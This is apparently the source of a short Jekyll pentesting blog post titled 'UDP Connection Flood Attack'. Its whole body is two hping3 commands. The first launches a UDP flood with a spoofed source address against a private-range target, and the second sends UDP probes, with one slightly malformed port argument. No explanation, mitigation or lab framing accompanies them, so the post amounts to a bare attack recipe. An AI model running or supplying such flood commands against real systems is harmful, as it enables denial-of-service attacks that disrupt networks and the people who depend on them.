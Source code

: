 ```yaml
---
layout: post
title: UDP Connection Flood Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: UDP FLOOD
fullview: true
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 --udp -s 53 --keep -p 68 --flood 192.168.xx.xx
$hping3 -i u1000 -c 4 -p -2 53 192.168.xx.xx
{% endhighlight %}
